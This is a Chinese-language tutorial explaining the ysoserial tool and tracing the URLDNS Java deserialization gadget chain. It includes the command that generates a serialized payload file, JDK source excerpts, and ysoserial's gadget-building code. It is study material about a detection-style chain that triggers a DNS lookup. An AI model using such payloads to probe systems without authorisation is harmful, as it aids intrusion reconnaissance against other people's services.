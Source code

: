 ### ysoserial简单入手

#### 简单了解ysoserial

* ysoserial是一个生成java序列化payload的工具

* 大致使用方式如下

  * 可以查看可用的利用链

  ![image-20240526173633470](./images/image-20240526173633470.png)

  * 生成序列化对象,并输出到文件

```shell
# URLDNS为利用链,http://test.io为要执行的命令,当然这里由于URLDNS的特殊性,不能执行命令,这里的链接只是进行一次dnslog,payload.bin则是将序列化对象输出到文件
java -jar ysoserial-all.jar URLDNS http://test.io > payload.bin
```

![image-20240526173906876](./images/image-20240526173906876.png)

#### ysoserial的对于URLDNS的简单调试

前面对于ysoserial的使用只是直接生成了攻击的序列化对象,我们并不了解整个攻击链的形成,借助对于ysoserial源码的分析,我们可以了解整个攻击链是如何形成的.我们可以通过调试ysoserial的源码,了解一条序列化链从生成到执行的全过程.

* 下载搭建项目
* 找到URLDNS的相关类

![image-20240529195025544](./images/image-20240529195025544.png)

* 可能是作者为了方便大家调试,这里在idea中直接运行该类包括序列化和反序列化两个过程,也就是生成和利用一步到位.运行时记得设置参数,这里设置的为dnslog的目标.

![image-20240529195227451](./images/image-20240529195227451.png)

![image-20240529195416163](./images/image-20240529195416163.png)

接下来让我们简单分析一下URLDNS序列化和反序列化的过程:

* URLDNS.main调用PayloadRunner.run(URLDNS.class, args)
* PayloadRunner.run(URLDNS.class, args)中通过反射获取URLDNS.class实例,然后通过getObject得到要序列化的对象
* 调用相关工具类Serializer.serialize(objBefore)序列化对象
* 调用相关工具类Deserializer.deserialize(serialized)反序列化对象,利用完成

### 分析URLDNS

* 直接在反序列化处下断点,对其进行调试,这里我们也不可能去复现最初发现者的发现流程,我们就根据已知的信息,是HashMap的readObject函数中的putVal(hash(key), key, value, false, false);触发了漏洞,在该处下一个断点,分析其前后的调用链

```java
// PayloadRunner调研相关工具类反序列化对象
final Object objAfter = Deserializer.deserialize(serialized);

// 反序列化的方法
public static Object deserialize(final InputStream in) throws ClassNotFoundException, IOException {
		final ObjectInputStream objIn = new ObjectInputStream(in);
		return objIn.readObject();
	}

// 反序列化目标HashMap对象自身的readObject,在putVal(hash(key), key, value, false, false);的hash(key)进入下一步,key是URL类
 private void readObject(ObjectInputStream s)
        throws IOException, ClassNotFoundException {

        ObjectInputStream.GetField fields = s.readFields();

        // Read loadFactor (ignore threshold)
        float lf = fields.get("loadFactor", 0.75f);
        if (lf <= 0 || Float.isNaN(lf))
            throw new InvalidObjectException("Illegal load factor: " + lf);

        lf = Math.min(Math.max(0.25f, lf), 4.0f);
        HashMap.UnsafeHolder.putLoadFactor(this, lf);

        reinitialize();

        s.readInt();                // Read and ignore number of buckets
        int mappings = s.readInt(); // Read number of mappings (size)
        if (mappings < 0) {
            throw new InvalidObjectException("Illegal mappings count: " + mappings);
        } else if (mappings == 0) {
            // use defaults
        } else if (mappings > 0) {
            float fc = (float)mappings / lf + 1.0f;
            int cap = ((fc < DEFAULT_INITIAL_CAPACITY) ?
                       DEFAULT_INITIAL_CAPACITY :
                       (fc >= MAXIMUM_CAPACITY) ?
                       MAXIMUM_CAPACITY :
                       tableSizeFor((int)fc));
            float ft = (float)cap * lf;
            threshold = ((cap < MAXIMUM_CAPACITY && ft < MAXIMUM_CAPACITY) ?
                         (int)ft : Integer.MAX_VALUE);

            // Check Map.Entry[].class since it's the nearest public type to
            // what we're actually creating.
            SharedSecrets.getJavaOISAccess().checkArray(s, Map.Entry[].class, cap);
            @SuppressWarnings({"rawtypes","unchecked"})
            Node<K,V>[] tab = (Node<K,V>[])new Node[cap];
            table = tab;

            // Read the keys and values, and put the mappings in the HashMap
            for (int i = 0; i < mappings; i++) {
                @SuppressWarnings("unchecked")
                    K key = (K) s.readObject();
                @SuppressWarnings("unchecked")
                    V value = (V) s.readObject();
                putVal(hash(key), key, value, false, false);
            }
        }
    }

// 又调用了URL的hashCode()
static final int hash(Object key) {
        int h;
        return (key == null) ? 0 : (h = key.hashCode()) ^ (h >>> 16);
    }

// handler.hashCode(this)又调用了URLStreamHandler的hashCode
public synchronized int hashCode() {
        if (hashCode != -1)
            return hashCode;

        hashCode = handler.hashCode(this);
        return hashCode;
    }

// 关注InetAddress addr = getHostAddress(u);继续跟进
protected int hashCode(URL u) {
        int h = 0;

        // Generate the protocol part.
        String protocol = u.getProtocol();
        if (protocol != null)
            h += protocol.hashCode();

        // Generate the host part.
        InetAddress addr = getHostAddress(u);
        if (addr != null) {
            h += addr.hashCode();
        } else {
            String host = u.getHost();
            if (host != null)
                h += host.toLowerCase().hashCode();
        }

        // Generate the file part.
        String file = u.getFile();
        if (file != null)
            h += file.hashCode();

        // Generate the port part.
        if (u.getPort() == -1)
            h += getDefaultPort();
        else
            h += u.getPort();

        // Generate the ref part.
        String ref = u.getRef();
        if (ref != null)
            h += ref.hashCode();

        return h;
    }

// 实际上调研了URL类的getHostAddress
protected InetAddress getHostAddress(URL u) {
        return u.getHostAddress();
    }

//  hostAddress = InetAddress.getByName(host)已经很直观了,从方法名和变量名就可以看出从host获取ip,就进行了dns查询
synchronized InetAddress getHostAddress() {
        if (hostAddress != null) {
            return hostAddress;
        }

        if (host == null || host.isEmpty()) {
            return null;
        }
        try {
            hostAddress = InetAddress.getByName(host);
        } catch (UnknownHostException | SecurityException ex) {
            return null;
        }
        return hostAddress;
    }
```



* 前文中,URLDNS序列化和反序列化的过程中,通过URLDNS类的getObject获取了要反序列化的对象,在分析完了URLDNS链反序列化的过程后,让我们分析一下该方法

```java
 public Object getObject(final String url) throws Exception {

                // SilentURLStreamHandler是我们继承URLStreamHandler实现的一个类,这里没有什么实际意义,只是为了满足new URL类时的参数要求
                URLStreamHandler handler = new SilentURLStreamHandler();

                // HashMap的readObject是触发漏洞的直接原因
                HashMap ht = new HashMap(); 
                URL u = new URL(null, url, handler); 
                ht.put(u, url); 

                Reflections.setFieldValue(u, "hashCode", -1); 

                return ht;
        }

static class SilentURLStreamHandler extends URLStreamHandler {

                protected URLConnection openConnection(URL u) throws IOException {
                        return null;
                }

                protected synchronized InetAddress getHostAddress(URL u) {
                        return null;
                }
        }
```

### URLDNS的特殊意义